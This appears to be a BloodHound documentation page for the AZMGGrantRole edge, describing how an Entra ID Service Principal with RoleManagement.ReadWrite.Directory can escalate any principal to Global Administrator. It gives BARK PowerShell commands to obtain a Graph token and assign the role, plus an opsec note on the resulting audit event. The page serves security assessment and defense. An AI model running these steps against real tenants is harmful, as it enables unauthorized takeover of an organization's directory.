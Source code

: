 ---
title: AZMGGrantRole
description: "This edge is created during post-processing."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


 It is created against all Entra ID admin roles when a Service Principal has the following MS Graph app role assignment:

* RoleManagement.ReadWrite.Directory

This privilege allows the Service Principal to promote itself or any other principal to any Entra ID admin role, including Global Administrator.

## Abuse Info

To abuse this privilege, you can promote a principal you control to Global Administrator using BARK’s New-AzureADRoleAssignment. This function requires you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant Entra ID admin roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s New-AzureADRoleAssignment function to grant the Entra ID role to your target principal:

```bash
New-AzureADRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an Entra ID admin role to a principal using this privilege, the Azure Audit log will create an event called “Add member to role outside of PIM (permanent)”.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
